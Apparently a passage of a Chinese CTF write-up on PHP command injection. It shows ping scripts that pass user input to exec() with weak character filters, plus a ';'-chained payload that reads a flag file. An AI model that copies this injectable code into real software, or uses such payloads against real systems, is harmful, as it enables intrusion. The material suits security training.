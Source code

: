 提示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYAdtyhfOJzd2piadcXzGB1PoGguUKeCGZ2hG5E0nHzbPUdvjaNdAgGkg/640?wx_fmt=png&from=appmsg "")  
  
源码  
```
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/\//", $ip, $m)) {         //过滤了 / 符号
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>

```  
  
查看当前目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYibYnvv1ut8ibFZvcKspt1Z8WSmGOYxx2EGqzYJtWDQDyNhSwK02aO9pQ/640?wx_fmt=png&from=appmsg "")  
  
进入该目录并查看  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkY3xeux0iaWjUmRupWX9QLKhkpYz5jxSA8aI5ianXUcK8I7JTJiaZZRHcUw/640?wx_fmt=png&from=appmsg "")  
  
执行以下命令读取flag文件  
```
127.0.0.1;cd flag_is_here;cat flag_29914267619184.php

```  
  
得到flag  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYqgKkLhVLib6gmxfvCf9SU2ePInsweRSwXfRNAeY2txPr1AXHIT7xUFA/640?wx_fmt=png&from=appmsg "")  
### 过滤运算符  
  
查看源码，可以利用 **；**  
绕过  
```
<?php
$res = FALSE;
if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||\&)/", $ip, $m)) {          //利用正则匹配过滤了 | 和 & 
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>

```  
  